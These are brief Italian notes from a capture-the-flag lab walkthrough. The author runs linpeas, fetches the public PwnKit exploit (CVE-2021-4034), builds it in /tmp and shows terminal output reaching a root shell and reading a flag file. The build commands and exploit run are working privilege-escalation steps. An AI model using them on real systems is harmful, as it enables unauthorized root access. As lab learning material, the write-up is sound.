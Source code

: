 used Linepeas.sh

![[Pasted image 20221029124922.png]]


![[Pasted image 20221029124938.png]]



https://github.com/berdav/CVE-2021-4034


scaricati i file pwnkit.c e cve-2021-4034.c in /tmp

scaricato anche il Makefile





```
www-data@ip-10-10-104-194:/tmp$ make
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
www-data@ip-10-10-104-194:/tmp$ ls
GCONV_PATH=.
Makefile
a.out
ciao
cve-2021-4034
cve-2021-4034.c
exp.c
gconv-modules
linpeas.sh
pwnkit.c
pwnkit.so
systemd-private-a38f75834ff147c28c9d6e11a1580680-systemd-timesyncd.service-u6j3OB
tmux-33
www-data@ip-10-10-104-194:/tmp$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
3rd.txt  snap
# cat 3rd.txt
3rd ingredients: fleeb juice
#



```


